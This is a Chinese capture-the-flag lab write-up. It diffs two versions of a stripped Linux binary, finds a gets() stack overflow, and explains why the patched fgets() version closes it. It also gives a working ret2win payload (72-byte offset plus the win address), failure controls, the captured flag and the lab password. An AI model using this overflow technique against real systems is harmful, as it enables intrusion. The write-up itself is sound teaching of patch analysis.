


# 7-1 安全补丁对比分析 · C035-G1（`gets` → `fgets`：72 字节偏移的单次 ret2win 与 v1/v2 补丁对比）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 安全补丁对比分析-G1（sectionID `6653`，课程内 number 26，题目内部编号 `C035-G1-F`） |
| 分类 | Pwn / 逆向分析 / 二进制补丁对比（Linux ELF x86-64 `gets` 栈缓冲区溢出 ret2win） |
| 题目描述 | 题目提供两个附件：`challenge_v1` 是同一程序的早期版本，`challenge_v2` 是后续修复版本；**靶机运行的是早期版本 `challenge_v1`**。要求对比两个版本、找出漏洞点，连接靶机拿到 flag。 |

Flag 题（questionID=9393）题干原文要点：

> 本题提供两个附件：`challenge_v1` 是同一程序的早期版本，`challenge_v2` 是后续修复版本；靶机运行的是早期版本 `challenge_v1`。请对比两个版本，找出漏洞点并拿到 flag。

Note：本题是 **`C035` 系列（Linux ELF 补丁对比）**，与前一批 6-x（Windows PE + MSVC `/GS`）在考察重点上完全不同：

- **考点是"从两个版本的差异反推漏洞"**，而不是先被告知保护机制再绕过：`challenge_v1.elf` 与 `challenge_v2.elf` 都没有符号表（stripped），唯一的入口线索是**导入表**——v1 比 v2 多一项 `gets`；
- **利用链极短**：非 PIE + 无 stack canary + `win()` 自己开 `/flag` 并打印，所以只要把 `main` 的返回地址改成 `0x4011d6`，**一次 `ret` 覆盖**就结束了，不需要 ROP 链、不需要泄漏、不需要 shellcode；
- **胜利条件由服务自己完成**：容器只映射 `22`(SSH) 与 **`70`**，而 **`70` 端口就是题目服务本身**，两个版本的二进制里都有 `"/flag"` 与 `"no /flag"`，`win` 函数自行 `open("/flag") → read → write(1,…) → _exit(0)`。所以**没有一次性 token、也没有单独的 flag 兑换服务**——利用成功即由服务直接吐出 flag。这一点与 6-x 系列（发一次性凭证 + 兑换容器）有本质区别。

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 国产化教学实训平台（自签名证书，`curl` 需 `-k --noproxy '*'`），课程 ID `1639`，本章节 `sectionID` `6653`（课程内 number 26）。平台账号与口令只保存在本地未跟踪的 `.local/` 目录（不入库），本文不记录任何凭据、cookie 或个人身份信息 |
| 题型 | 3 道单选（9361 / 9363 / 9365，`questionType=2`）+ 1 道多选（9367，`questionType=3`）+ 1 道 Flag 填空（9393，`questionType=1`），题面共 5 题；题面接口返回 `isResubmit=false`（平台不提供官方重答入口） |
| 靶机实例 | envID `1205`（实验环境名 `C035-G1-F`），podID `5ual69gifyueycjcna9mytm08`，容器名 `s-149921`，image `172.17.0.105:8083/t-11637/c035-g1-f:2026`，`state=Running`，`targetPorts=[22,70]` |
| 端口映射（实测 `portInfos`） | `172.17.0.13:14672 → 22`（SSH）、**`172.17.0.13:14673 → 70`（题目服务本身，裸 TCP，非 HTTP）** |
| 题目服务 | `172.17.0.13:14673`。banner 与协议：打印 `Username: ` → 读一行 → 打印 `Password: ` → 读一行 →（口令错）`Access denied.\n` /（口令对）`Welcome, <name>!\n`。**利用成功时由该服务自己打印 `vmc{...}`**（无 token、无兑换服务） |
| 附件（题面下载，`GET /api/question/file/<文件名>?ID=9393`） | `challenge_v1.elf`：**14528 B**，MD5 **`a9a32c00d68eb8a7c466ad051d4bc5b5`**（靶机在跑的版本）；`challenge_v2.elf`：**14520 B**，MD5 **`bffb1d8c0a3d182c3376093e20bbfbc8`**（修复版）。两个附件重新下载后大小与 MD5 与本地副本逐字节一致 |
| 附件属性（实测） | 均为 ELF 64-bit LSB **executable（ET_EXEC，非 PIE）**、x86-64、dynamically linked、**stripped**、`GNU_STACK=RW`（NX 开启）、有 `GNU_RELRO`；反汇编中**没有** `fs:0x28` / `__stack_chk_fail` ⇒ **无 stack canary** |
| 章节实验环境 | 本题按 AGENTS.md 记录的 `lab/vm` 接口返回 `environment: null`，实例统一在「我的实例」页管理，因此改用 `instances` 接口与页面核对（截图 08、08b） |
| 本机工具 | 无 pwntools / readelf / checksec / gdb / qemu，本机也无法直接运行 ELF；用 Apple LLVM `objdump -d -M intel` / `objdump -R` 做反汇编与重定位表分析，用 Python 3.14 原生 `struct` / `socket` 自写 ELF 头解析、函数级 diff 与交互脚本，PIL 做脱敏；截图用无头 Chrome（playwright-core 驱动系统 Chrome） |
| 选择题判分 | **9361=B、9363=C、9365=A、9367=B+C**（提交前已独立判定并落盘 `.local/process/7-1-answers-rationale.md`，与 Lead 独立判定逐项一致）；`GET /api/student/get/answerHistory?sectionID=6653&contestMode=0` 返回 **5/5 `isCorrect=true`**。按惯例本文不展开选择题解析 |

## 解题过程

### 1. 附件核对与靶机 banner：裸 TCP、`Username:` / `Password:` 两段提示（截图 01）

先确认 70 端口上到底是什么服务——它既不是 HTTP，也不是"flag 兑换服务"，就是题目程序本体：

```console
$ nc -w 6 -v 172.17.0.13 14673 < /dev/null
Connection to 172.17.0.13 port 14673 [tcp/*] succeeded!
Username: Password:
# 结论：裸 TCP、无提示符协议；先打印 "Username: "，读一行后再打印 "Password: "
```

再做三组交互摸底（`python3 interact.py recon`，脚本在 `.local/process/7-1-scripts/`）：

```console
===== 失败对照1: 用户 admin + 错口令 =====
[send] line1 = b'admin'
[send] line2 = b'wrongpass'
[recv] b'Username: Password: Access denied.\n'

===== 成功对照: 用户 admin + 正确口令 =====
[send] line1 = b'admin'
[send] line2 = b'xK9!mQ#2vL@pR7nZ'
[recv] b'Username: Password: Welcome, admin!\n'

===== 试探: username 恰好 64 字节（缓冲区满界） =====
[send] line1 = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'   # 64 个 A
[send] line2 = b'xK9!mQ#2vL@pR7nZ'
[recv] b'Username: Password: Welcome, AAAA…(64)…AAAA!\n'                         # 恰好 64 字节不越界、不崩溃
```

三条信息：口令常量在 `.rodata` 里是 `xK9!mQ#2vL@pR7nZ`（v1 `0x402014`，v2 `0x402016`）；输入顺序是**先 username、后 password**；username 输入 64 字节刚好不崩，说明 64 正是它的缓冲区容量，而**读 username 的那一步没有任何长度上限**（后文静态分析证实是 `gets`）。


### 2. 静态侦察一：非 PIE / NX 开 / 无 canary，导入表 v1 有 `gets`、v2 没有（截图 02）

`stripped` 的 ELF 没有函数符号可读，所以第一步**先看导入表**——这是两版之间最干净的差异信号（原始输出 `logs/13-import-diff.txt`、`logs/01-elf-info.txt`）：

```console
$ objdump -R files/challenge_v1.elf | grep JUMP_SLOT | wc -l      → 15
$ objdump -R files/challenge_v2.elf | grep JUMP_SLOT | wc -l      → 14
$ diff <(objdump -R files/challenge_v1.elf) <(objdump -R files/challenge_v2.elf)
< 0000000000404060 R_X86_64_JUMP_SLOT       gets        <-- v1 有
---
> 0000000000404060 R_X86_64_JUMP_SLOT       setvbuf     <-- v2 从这里开始就少了一项
# v1：15 个 JUMP_SLOT（含 gets）；v2：14 个（无 gets），其余导入项逐个相同
# 连带效应：v2 的 .got.plt / PLT 各短 8 字节 ⇒ 之后所有 .text 地址整体 -0x10
#   （win 0x4011d6 → 0x4011c6；main 0x4012c7 → 0x4012e5）

$ python3 elf_info.py files/challenge_v1.elf files/challenge_v2.elf
files/challenge_v1.elf
  e_type        : ET_EXEC(非 PIE) | PIE = False          <- 两个版本都是非 PIE
  entry         : 0x4010f0
  GNU_STACK     : RW(NX 开启)                            <- 无需 shellcode
  GNU_RELRO     : 0x403e10
files/challenge_v2.elf
  e_type        : ET_EXEC(非 PIE) | PIE = False
  entry         : 0x4010e0
  GNU_STACK     : RW(NX 开启)
# 反汇编中无 fs:0x28 / __stack_chk_fail ⇒ 无 stack canary
```

四条结论：

1. **唯一的导入项变化就是 `gets` 被移除**——`gets` 从 C11 起已被移出 ISO C 标准，且它永远无法做边界检查，出现在导入表里基本等于"这里有一个无界读入的栈溢出"；
2. **`.text` 整体位移 `-0x10`**：少一个 PLT 项让后续所有地址前移 0x10，这就是"直接对两版 `objdump -d` 文本做 `diff` 会满屏差异"的根因，也是后面必须先做地址归一化的原因；
3. **非 PIE（`ET_EXEC`）** ⇒ `win`、`main`、`.rodata` 的地址都是编译期常量，payload 里可以直接写死目标地址；
4. **NX 开启但无 canary**：本题不需要 shellcode（`win` 就在进程里），所以 NX 不构成障碍；而**没有 stack canary** 意味着覆盖返回地址时不必回填任何"栈 cookie"。


### 3. 静态侦察二：漏洞点 `0x401293 call gets@plt`，`char username[64] @ [rbp-0x40]`，偏移 72（截图 03b）

导入表指明了"有 `gets`"，但还需要**精确到指令与字节**地定位漏洞点与偏移。完整反汇编后（原始输出 `logs/challenge_v1.asm`、带注释版 `logs/12-annotated-vuln.txt`）：

```console
; （以下为 logs/12-annotated-vuln.txt 的节选，归一化展示；完整逐条指令与地址见原始记录）
; ---------- void read_input(char *buf) —— 唯一的输入封装，内部调 gets ----------
  40127b: 55                    push  rbp
  40127c: 48 89 e5              mov   rbp,rsp
  40127f: 48 83 ec 10           sub   rsp,0x10
  401283: 48 89 7d f8           mov   [rbp-0x8],rdi   ; 参数 buf
  401287: 48 8b 45 f8           mov   rax,[rbp-0x8]
  40128b: 48 89 c7              mov   rdi,rax
  40128e: b8 00 00 00 00        mov   eax,0x0
  401293: e8 28 fe ff ff        call  0x4010c0 <gets@plt>   ; ★★★ 漏洞点：gets(buf) 无长度上限
  401299: c9                    leave
  40129a: c3                    ret

; ---------- main: 读入顺序与缓冲区布局 ----------
  4012cb: 48 83 c4 80           add   rsp,-0x80     ; = sub rsp,0x80；整个帧 0x80，无 canary
  40131a: e8 41 fe ff ff        call  0x401060 <printf@plt>    ; printf("Username: ")   [0x402025]
  40131f: 48 8d 45 c0           lea   rax,[rbp-0x40]           ; ★ username 缓冲区 = [rbp-0x40]，64 字节
  401326: e8 50 ff ff ff        call  0x40127b                ; ★★ read_input(username) → gets() ⇒ 可溢出
  401346: 48 8d 45 80           lea   rax,[rbp-0x80]           ; password 缓冲区 = [rbp-0x80]，64 字节
  40134a: be 40 00 00 00        mov   esi,0x40                 ; ★ 长度上限 0x40（有界读，安全）
  401352: e8 49 fd ff ff        call  0x4010a0 <fgets@plt>     ; fgets(password, 64, stdin)
  401374: e8 07 fe ff ff        call  0x401080 <strcspn@plt>   ; stdout 侧去换行
  401385: e8 11 ff ff ff        call  0x40129b                ; check_password(password) → strcmp
  4013bf: c9                    leave
  4013c0: c3                    ret                      ; ★ 返回地址被改成 0x4011d6 ⇒ 跳进 win
```

**偏移推导与 payload**：

```text
缓冲区首址      = rbp - 0x40     （gets 的写入起点）
[rbp-0x40 .. rbp-0x01] = 64 字节  username 缓冲区本体
[rbp+0x00 .. rbp+0x07] =  8 字节  saved RBP（leave 时会 pop 回 rbp，必须一起填掉，
                                  否则 leave 后 rbp 变成垃圾，win 内的 rbp 寻址全乱）
[rbp+0x08 ..          ] =         saved RIP（main 的返回地址）

⇒ 到返回地址的偏移 = 0x40 + 8 = 72 字节；第 73 字节起写 8 字节小端目标地址
⇒ payload = b"A"*72 + p64(0x4011d6)
```

**为什么不需要额外的 ROP、也不需要回填 canary**：

- 反汇编里不存在 `mov rax, qword ptr fs:0x28` / `__stack_chk_fail` ⇒ 无 `-fstack-protector`：
- `e_type = ET_EXEC`（非 PIE）⇒ `win` 的运行时地址恒为 `0x4011d6`，**不需要信息泄露**；
- `win` 自己完成 `open("/flag",0) → read(fd, rbp-0x110, 0x100) → write(1, …) → close → _exit(0)`，**不依赖任何参数**，读到文件即打印、读不到才打印 `no /flag` ⇒ 单次覆盖 `ret` 就够了。

```console
; ---------- win 函数（两个版本里逐字节相同，仅整体位移 0x10） ----------
00000000004011d6 <win>:
  4011d6: 55                    push  rbp
  4011d7: 48 89 e5              mov   rbp,rsp
  4011da: 48 81 ec 10 01 00 00  sub   rsp,0x110
  4011e6: 48 8d 05 17 0e 00 00  lea   rax,[rip+0xe17]          ; "/flag"     [0x402004]
  4011f5: e8 e6 fe ff ff        call  0x4010e0 <open@plt>      ; open("/flag", 0)
  401217: e8 74 fe ff ff        call  0x401090 <read@plt>      ; read(fd, buf, 0x100)
  401241: e8 0a fd ff ff        call  0x401050 <write@plt>     ; write(1, buf, n)
  40124d: 48 8d 05 b6 0d 00 00  lea   rax,[rip+0xdb6]          ; "no /flag\n" [0x40200a]
  401276: e8 b5 fd ff ff        call  0x401030 <_exit@plt>     ; _exit(0)
```

![v1 漏洞点定位：`0x401293 call gets@plt`、`char username[64] @ [rbp-0x40]`、saved RBP 与 saved RIP 的布局，以及"偏移 = 64 + 8 = 72"的逐步推导；真实命令回显的渲染稿（非终端实拍）](screenshots/03b-补丁对比-v1漏洞点与偏移计算.png)

### 4. v1 → v2 补丁对比：`.text` 归一化后只有两处真实差异（截图 03）

这是本题的核心产出。**直接 `diff` 两份 `objdump -d` 文本会满屏都是地址差异**（`.text` 整体 `-0x10`），所以必须先把地址位移归一化。做法是写 `patch_diff.py`：按函数边界切分 → 把 `0x40xxxx`、`[rip+disp]`、objdump 的注释后缀归一化成占位符 → 再逐指令比对（原始输出 `logs/02-patch-diff.txt`）。

**函数级结论：9 个函数里 7 个逐条指令完全相同（只有地址位移），实质改动只有 2 处**：

```text
函数                         v1 起始     v2 起始   v1 条数   v2 条数  结论
_start                  0x4010f0  0x4010e0      14      14  完全相同（仅地址位移）
deregister_tm_clones    0x401120  0x401110      14      14  完全相同（仅地址位移）
register_tm_clones      0x401160  0x401150      14      14  完全相同（仅地址位移）
__do_global_dtors_aux   0x4011a0  0x401190      11      11  完全相同（仅地址位移）
frame_dummy             0x4011d0  0x4011c0       2       2  完全相同（仅地址位移）
win                     0x4011d6  0x4011c6      40      40  完全相同（仅地址位移）
read_input              0x40127b  0x40126b      11      23  ★ 有实质差异
check_password          0x40129b  0x4012b9      14      14  完全相同（仅地址位移）
main                    0x4012c7  0x4012e5      59      60  ★ 有实质差异
```

**(a) `read_input`：实现整体重写（11 → 23 条指令）**

```text
v1:  void read_input(char *buf) {             v2:  void read_input(char *buf, int n) {
       gets(buf);              ← 无界               fgets(buf, n, stdin);      ← 有界
     }                                              buf[strcspn(buf,"\n")] = 0; ← 去掉换行
                                                    }
```

```text
--- v1/read_input
+++ v2/read_input
   mov  qword ptr [rbp - 0x8], rdi            ; buf
+  mov  qword ptr [rbp - 0x10], rsi           ; ★ 新增第 2 个参数 n
+  mov  rdx, qword ptr [rip + <DISP>]         ; stdin
+  mov  rax, qword ptr [rbp - 0x10]
+  mov  ecx, eax
   mov  rax, qword ptr [rbp - 0x8]
+  mov  esi, ecx                              ; size = (int)n
   mov  rdi, rax
-  mov  eax, 0x0
-  call <ADDR> <gets@plt>                     ; ★★★ 漏洞指令
+  call <ADDR> <fgets@plt>                    ; ★★★ 补丁指令
+  mov  rax, qword ptr [rbp - 0x8]
+  lea  rdx, [rip + <DISP>]                   ; "\n"
+  mov  rsi, rdx
+  mov  rdi, rax
+  call <ADDR> <strcspn@plt>
+  mov  rdx, qword ptr [rbp - 0x8]
+  add  rax, rdx
+  mov  byte ptr [rax], 0x0                   ; buf[strcspn(buf,"\n")] = 0
```

**(b) `main` 的调用点：多传一个长度参数（+1 条指令）**

```text
    lea  rax, [rbp - 0x40]        ; username（64 字节）
+   mov  esi, 0x40                ; ★ 新增：n = 64 = sizeof(username)
    mov  rdi, rax
    call <read_input>
```

**（可选）(c) `gets` 从导入表移除**：连带 PLT/GOT 缩短、`.text` 整体 `-0x10`（见步骤 2）。也就是说这是一个**"调用点 + 被调函数 + 导入表"三处协同**的补丁。

其余差异都是位移噪声：`main` 里 `setvbuf` / `printf` / `fgets` / `strcspn` / `strcmp` / `puts` 的调用序列与常量（`0x40`、口令串、`"Username: "`）完全一致，`win` / `check_password` / `_start` / 各 `*_tm_clones` / `frame_dummy` 归一化后逐条相同（`diff` 里残留的 `<.text+0x273>` ↔ `<.text+0x2a6>` 之类，是同一相对目标的两种位移表示）。`.rodata` 的差异也只是 v2 在 `0x402014` 插入了一个 `"\n"` 字符串（供 `strcspn` 使用），口令串与提示串逐字相同。


### 5. 补丁为什么能挡住原利用

原利用成立需要两个前提：**① 能把超过 64 字节写进 `username`；② 能把返回地址改成 `0x4011d6`**。

补丁针对的正是前提 ①：

- `fgets(buf, 64, stdin)` 最多向缓冲区写入 **63 个字符 + 1 个 NUL**，而 NUL 一定落在 `buf[63]`，即 `[rbp-0x40 + 63]`——**永远落在缓冲区内部**；
- 因此写入范围恒为 `[rbp-0x40 .. rbp-0x01]`，**saved RBP（`[rbp]`）与 saved RIP（`[rbp+8]`）保持原值**，前提 ① 被彻底切断，前提 ② 也就无从谈起；
- 追加的 `buf[strcspn(buf,"\n")] = 0` 只影响字符串内容（把行尾 `\n` 换成 `\0`），**不改变写入长度**，属于"保持原 `gets` 语义（读入的字符串不含换行）"的配套改写；
- 结论：**即便不开 canary、不开 PIE，仅把无界读换成有界读，就已挡住本题的 ret2win**。这也是"最小必要修复"的一个干净样本——本题的漏洞根因是唯一的无界读入，而不像 6-x 那样需要 Cookie 之类的额外保护才成立。

> 口径说明（如实标注证据边界）：**本靶机跑的是 v1**，因此"v2 打不通"这一步没有在靶机上动态复现，证据是**静态推演 + 长度/偏移计算**：`fgets(buf,64)` 的写入上界（63 字节 + 缓冲区内 NUL）与偏移 72（64 + 8）之间的关系是确定的，72 > 64 但 64 ≤ 64，写入永远到不了 saved RBP/RIP。原始记录中未做 v2 的独立运行验证，此处不作"已实测"表述。

### 6. 失败对照五条 + `0x4011d7` 的意外发现（截图 04）

每条对照独立开一条 TCP 连接（`python3 interact.py <mode>`），口令行固定发正确口令 `xK9!mQ#2vL@pR7nZ`：

| # | 尝试 | payload（username 行） | 实测 | 原因 |
| --- | --- | --- | --- | --- |
| 1 | 偏移不足 | `"A"*72` | `Segmentation fault (core dumped)` | 只填满 64 B 缓冲区 + 8 B saved RBP，`gets` 补的 NUL 写到返回地址最低字节 ⇒ 返回地址被破坏成非法值 |
| 2 | 偏移过量 | `"A"*80` | `Segmentation fault (core dumped)` | 返回地址被 `0x4141414141414141` 覆盖 |
| 3 | 目标地址不可执行 | `b"A"*72 + p64(0x402004)` | `Segmentation fault (core dumped)` | `0x402004` 是 `.rodata` 里 `"/flag"` 字符串的地址，所在段 `R--`，不可执行 |
| 4 | 错位解码 | `b"A"*72 + p64(0x4011de)` | `Segmentation fault (core dumped)` | `0x4011de` 落在 `sub rsp,0x110`（`4011da` 起 7 字节）**指令中间** ⇒ 错位解码 |
| 5 | 不可映射地址 | `b"A"*72 + p64(0xdeadbeef)` | `Segmentation fault (core dumped)` | `0xdeadbeef` 不在任何映射段内 |

```console
$ python3 interact.py crash 72
[send] line1 = b'AAAA…(72)…AAAA'      # 无目标地址
[recv] b'Username: Password: Welcome, AAAA…(72)…AAAA!\nSegmentation fault (core dumped)\n'

$ python3 interact.py crash 80
[recv] b'Username: Password: Welcome, AAAA…(80)…AAAA!\nSegmentation fault (core dumped)\n'

===== 失败对照3: 偏移正确但目标地址 0x402004（.rodata 不可执行） =====
[recv] b'…\x04 @!\nSegmentation fault (core dumped)\n'

===== 失败对照4(修正): 0x4011de —— 跳进 sub rsp,0x110 指令中间（错位解码） =====
[recv] b'…\xde\x11@!\nSegmentation fault (core dumped)\n'

===== 失败对照5: 目标 0xdeadbeef（不可映射地址） =====
[recv] b'…\xef\xbe\xad\xde!\nSegmentation fault (core dumped)\n'
```

**❗意外发现：`0x4011d7` 也能成功，它不是失败对照。** 我第一次把 `b"A"*72 + p64(0x4011d7)` 当作"错位入口"列入失败对照，结果服务**打印出了 flag**：

```console
===== 失败对照4: 偏移正确但目标 0x4011d7（win 内部错位指令） =====
[recv] b'…\xd7\x11@!\nvmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}\n'    # ← 应该是"失败"，却拿到了 flag
```

原因：`0x4011d7` 正是 `win` 的第一条指令 `push rbp` 的**第二字节**，从那里开始是 `mov rbp,rsp; sub rsp,0x110; …`。它**跳过了 `push rbp`**，但后续指令序列完整、逐条可执行，`rbp` 只是指向覆写区更高处、`read` 的缓冲区整体移位，`win` 依然把 `/flag` 读出来并打印。所以它是一个**成功的"错位入口"**，而不是失败对照——**这也说明"跳到函数内部非首地址"并不必然崩溃，是否成功取决于错位点后面的指令序列是否仍然自洽**。

原始记录里第一次留下的图注仍写作"失败对照4: `0x4011d7`"（对应 `logs/04-remote-failures.txt`），而**真正的失败对照**是后来补测的 `0x4011de`（`logs/05-remote-failures2.txt`）——截图 04 中两组都在：前者输出 flag、后者 `Segmentation fault`。这一点保留在正文里，就是为了不把"意外成功的错位入口"误读成"失败对照"。


### 7. 正式利用：`b"A"*72 + p64(0x4011d6)`，服务直接打印 flag（截图 05）

```console
$ python3 interact.py pwn      # payload = b"A"*72 + p64(0x4011d6)，口令行发 xK9!mQ#2vL@pR7nZ
===== ret2win: 72*A + p64(0x4011d6) =====
[send] line1 = b'AAAA…(72)…\xd6\x11@\x00\x00\x00\x00\x00'
[send] line2 = b'xK9!mQ#2vL@pR7nZ'
[recv] b'Username: Password: Welcome, AAAA…\xd6\x11@!\nvmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}\n'
```

栈布局逐格核对：

```text
偏移            长度  内容                落点                作用
[0  .. 63]       64  b'A'*64             username=[rbp-0x40] 填满缓冲区
[64 .. 71]        8  b'A'*8              [rbp]  saved RBP     leave 时 pop 回 rbp（必须填掉）
[72 .. 79]        8  p64(0x4011d6)       [rbp+8] saved RIP    main 的 ret 跳进 win

read_input(username) 内的 gets 无长度上限 ⇒ 一口气写到偏移 79
main: 0x4013bf leave / 0x4013c0 ret → RIP = 0x4011d6 = win
win: open("/flag",0) → read(fd, rbp-0x110, 0x100) → write(1, buf, n) → _exit(0) ⇒ 服务打印 flag
```

**关键点：这里没有任何"再兑换一次"的步骤。** 打印 flag 的就是题目服务本身（70 端口），flag 直接出现在同一条 TCP 连接的响应里：

- banner 里的 `Welcome, AAAA…\xd6\x11@!` 是 `printf("Welcome, %s!\n", username)` 的正常输出（口令恰好正确），真正的 flag 出现在 `main` 返回、`win` 执行之后的下一行；
- 多次连接结果完全一致：标准 `0x4011d6` 入口的成功回显见 `logs/06-remote-pwn.txt`，稳定性日志 `logs/07-flag-stability.txt` 中每一行都是一条 `vmc{...}`（**4 行同一字符串**）；连同 `0x4011d7` 错位入口那一次，原始终记录共记 4 次成功连接（`logs/06` + `logs/07` 的对应关系见下条口径说明）。

```console
$ cat logs/07-flag-stability.txt
vmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}
vmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}
vmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}
vmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}
```

> 口径说明：原始记录 §2.4 把成功次数表述为"标准入口 1 次 + 稳定性复验 2 次 + 错位入口 1 次 = 4 次"，但 `logs/07-flag-stability.txt` 实际有 **4 行**，两者无法逐一对应（该文件可能是多次运行追加写入）。此处**以日志实际内容为准**记载"同一 flag 出现 4 行"，不强行套用记录的次数拆分；无论按哪种口径，**flag 字符串本身在每次成功连接中都完全一致**，且由 Lead 独立复现取得同一结果。


### 8. 提交答案与平台判分：5/5 全对（截图 06、07、07b）

`POST /api/student/submitAnswers`（multipart，多个 `answers` 字段），每个 `answers` 的值是**外层包了 questionID 的 JSON 字符串**；`num` 取所选答案个数（单选 1、多选选 2 个填 2、填空固定 3、flag 放第 3 格）：

```bash
curl -sS -k --noproxy '*' -m 60 -b .local/vmc-cookies.txt \
  -X POST "$VMC_BASE_IP/api/student/submitAnswers" \
  -F 'sectionID=6653' \
  -F 'answers={"questionID": 9361, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9363, "answer": "{\"answer\": [\"C\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9365, "answer": "{\"answer\": [\"A\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9367, "answer": "{\"answer\": [\"B\",\"C\"], \"num\": 2}"}' \
  -F 'answers={"questionID": 9393, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{0QcDg4En7PTI5GAhxzSjebONhZrSQQI5}\"]}"}' \
  -F 'contestMode=0'
# HTTP 200，{"code":0,"msg":"success"}；5 条记录 answerTimes 均为 1
# 填空题被平台规范化：9393 → {"num":3,"answer":["","true","vmc{...}"]}
```

判分以 `GET /api/student/get/answerHistory?sectionID=6653&contestMode=0` 为准（原文 `logs/10-answerHistory-post.json`）：

| order | questionID | 题号 | 题型 | isCorrect |
| --- | --- | --- | --- | --- |
| 1 | 9361 | C035-G1-S1 | 单选 | true |
| 2 | 9363 | C035-G1-S2 | 单选 | true |
| 3 | 9365 | C035-G1-S3 | 单选 | true |
| 4 | 9367 | C035-G1-M | 多选 | true |
| 5 | 9393 | C035-G1-F | Flag 填空 | true |

**5/5 全部 `isCorrect=true`。** 三处属平台已知正常现象、不代表判错：顶层 `isCorrect:false`、各条 `scoreRate:0`、填空题中间位被自动填成 `"true"`。提交前 `answerHistory` 为空（`logs/08-answerHistory-pre.json`），说明这是本题的首次提交。





### 9. 实例与端口映射核对：70 就是题目服务本身，22 才是 SSH（截图 08、08b）

「我的实例」页可见环境 `C035-G1-F`（容器 `s-149921`）状态 `running`，端口映射徽标悬停后展开 tooltip：`22 → 172.17.0.13:14672`、`70 → 172.17.0.13:14673`。接口侧同时核对（`/api/student/instances?ID=1205`，`logs/14-instances.json`）：

```json
{ "name": "s-149921", "podID": "5ual69gifyueycjcna9mytm08",
  "image": "172.17.0.105:8083/t-11637/c035-g1-f:2026",
  "state": "Running", "ip": "172.17.0.13",
  "portInfos": [ { "publishedPort": 14672, "targetPort": 22 },
                 { "publishedPort": 14673, "targetPort": 70 } ] }
```

**只有 22 与 70 两个映射，没有第三个端口**——这就从平台侧佐证了"没有单独的 flag 兑换服务"：`14673` 的 `nc` 回显就是 `Username: / Password:`（步骤 1），flag 也由它打印（步骤 7）。22 端口的 SSH 密码未知、也无需使用（利用只走 stdin）。

